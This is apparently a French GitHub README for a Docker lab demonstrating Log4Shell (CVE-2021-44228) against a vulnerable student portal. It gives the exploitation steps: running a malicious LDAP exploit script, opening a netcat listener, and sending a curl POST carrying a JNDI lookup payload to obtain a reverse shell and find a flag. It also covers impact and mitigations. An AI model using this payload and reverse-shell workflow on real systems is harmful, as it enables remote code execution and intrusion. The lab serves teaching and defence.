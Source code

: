 # Log4Shell : **Setup and Exploitation Guide**

Ce projet est conçu pour démontrer et comprendre la vulnérabilité critique **Log4Shell** (CVE-2021-44228), qui affecte la bibliothèque **Apache Log4j 2**. Cette vulnérabilité permet à un attaquant d'exécuter du code arbitraire à distance en exploitant un mauvais traitement des messages de log.

L'application web utilisée pour cette démonstration est un **portail étudiant** de l'**ISFA (Institut de Science Financière et d'Assurances)**. Ce portail permet aux étudiants de télécharger leurs documents scolaires et de consulter leurs notes. Dans cette démonstration, nous allons exploiter cette application pour démontrer la vulnérabilité Log4Shell.

### **Qu’est-ce que Log4j ?**

Log4j est une bibliothèque open-source réputée, conçue pour gérer la journalisation des événements dans les applications Java. Créée par la fondation Apache, elle est largement utilisée par les développeurs pour enregistrer des messages, des exceptions et d’autres informations utiles sur le fonctionnement des applications.

### **Présentation de la vulnérabilité Log4j (Log4Shell)**

Log4Shell, identifiée par le CVE-2021-44228, est une vulnérabilité critique dans Log4j qui permet l’exécution de code à distance (Remote Code Execution ou RCE). Cette faille exploite la fonctionnalité de résolution des expressions JNDI (Java Naming and Directory Interface) dans Log4j, permettant à un attaquant de contrôler l’exécution du code sur le système cible. JNDI est une interface de programmation d’applications (API) que les applications Java utilisent pour accéder aux ressources hébergées sur des serveurs externes.

L’injection JNDI prend en charge différents types de répertoires, comme Domain Name Service (DNS), Lightweight Directory Access Protocol (LDAP) qui fournissent de précieuses informations comme les appareils réseau de l’organisation, Remote Method Invocation (RMI), et Inter-ORB Protocol (IIOP).

### Fonctionnement technique

- Lorsqu’une application utilise Log4j pour enregistrer une entrée utilisateur non validée contenant une expression JNDI malveillante, Log4j tente de résoudre cette expression en accédant à une ressource externe.
- L’attaquant peut alors fournir une URL pointant vers un serveur malveillant qui renvoie un payload exécutable.
- Une fois le payload chargé et exécuté, l’attaquant obtient un contrôle total du système.

## Prérequis

- **Docker** installé sur votre machine.

## **Setting Up the Application**

### Step 1 : Téléchargez les images Docker

Exécutez les commandes suivantes pour télécharger les images nécessaires depuis Docker Hub :

```
docker pull eddycaron/diable:log4shell_vuln_app
docker pull eddycaron/diable:log4shell_attacker
```

### Step 2 : Créez un réseau Docker

Créez un réseau Docker pour que les conteneurs puissent communiquer entre eux :

```
docker network create --driver bridge --subnet 172.25.0.0/16 net1
```

### Step 3 : Lancez l’application vulnérable

### **Sur Linux :**

```
docker run -d --name vuln_app --network net1 --ip 172.25.0.10 eddycaron/diable:log4shell_vuln_app
```

Accédez à l’application vulnérable via :

```
http://172.25.0.10:8080
```

### Sur Windows :

```
docker run -d --name vuln_app -p 8080:8080 --network net1 --ip 172.25.0.10 eddycaron/diable:log4shell_vuln_app
```

Accédez à l’application vulnérable via :

```
http://localhost:8080
```

### Step 4 : Lancez la machine attaquante

Exécutez le conteneur de l’attaquant :

```
docker run -d --name attacker --network net1 --ip 172.25.0.20 eddycaron/diable:log4shell_attacker
```

## Exploiter la vulnérabilité

### Initialisez l’environnement de l’attaquant

Connectez-vous au conteneur de l’attaquant et lancez le script d’exploitation :

```
docker exec -it attacker bash
python3 exploit.py --userip 172.25.0.20 --webport 8000 --lport 9001
```

### Configurez un listener

Dans le conteneur de l’attaquant, lancez un listener avec Netcat :

```
docker exec -it attacker bash
nc -lvnp 9001
```

### Envoyez une requête malveillante

Envoyez une requête POST malveillante à l’application vulnérable :

```
docker exec -it attacker bash
curl -X POST -d "uname=\${jndi:ldap://172.25.0.20:1389/a}&password=blablaisfa" http://172.25.0.10:8080/login
```

### Observez le résultat

Dans le listener Netcat, vous recevrez une connexion depuis le serveur cible. Voici quelques commandes pour interagir avec le système compromis :

- **Afficher l'utilisateur actuel** :
    
    ```bash
    whoami
    ```
    
- **Afficher le répertoire de travail actuel** :
    
    ```bash
    pwd
    ```
    
- **Trouver le flag caché** :
    
    Explorez les répertoires Linux pour trouver le flag caché.
    

**Indice :**

Le flag est situé dans le répertoire contenant les utilisateurs de la machine. 😉

### Fonctionnement de `exploit.py`

Le fichier `exploit.py` agit comme un serveur LDAP malveillant. Voici ce qu'il fait :

1. Il écoute sur un port défini (8000) pour capturer les requêtes envoyées par l'application vulnérable.
2. Lorsque l’exploit est injectée dans l'application, elle déclenche une requête LDAP vers le serveur malveillant.
3. Le script envoie une réponse contenant un objet Java malveillant, ce qui exécute du code arbitraire sur le serveur ciblé.
4. Cette interaction permet d'établir une connexion avec le listener Netcat, établissant ainsi un accès non autorisé.

# **Impact**

- Exécution de code à distance (**RCE**) avec privilèges de l'application cible.
- Compromission complète des systèmes affectés.
- Mouvement latéral possible pour attaquer d'autres services internes.
- Exfiltration de données sensibles via des requêtes malveillantes.
- Déploiement de ransomwares ou de **crypto-miners** sur les serveurs.

# **Mitigation**

- **Mise à jour** vers Log4j **2.17.1** ou version ultérieure.
- **Désactiver JNDI Lookup** via la configuration (`log4j2.formatMsgNoLookups=true`).
- **Filtrer et surveiller** les journaux pour détecter les tentatives d’exploitation.
- **Mettre en place un WAF** avec des règles spécifiques pour bloquer les payloads malveillants.
- **Restreindre les connexions sortantes** pour empêcher l’accès aux serveurs malveillants.

## Avertissement

**L'utilisation de ce projet pour exploiter des systèmes sans autorisation est strictement interdite.** Assurez-vous de toujours avoir les droits nécessaires avant d'utiliser des outils de sécurité offensive.

Ma contribution dans le projet DIABLE :

J’ai créé une image docker vulnérable à Log4shell.

J’ai créé une image docker qui va jouer le rôle de la machine de l’attaquant.

J’ai créé un réseau pour que les deux conteneurs peuvent communiquer entre eux.

J’ai créé un fichier .yml pour que l’utilisateur puissent construire les images docker localement.

J’ai mis une flag dans le conteneur de l’application vulnérable pour faire preuve que la vulnérabilité est bien exploité.

J’ai résolu une machine Hackropole : ‘**Welcome Admin 2/2**’. La solution es déjà publié sur le site : https://hackropole.fr/fr/writeups/fcsc2024-web-welcome-admin-2/6c3c4cdf-cac6-411e-a7de-f67cee7b857c/
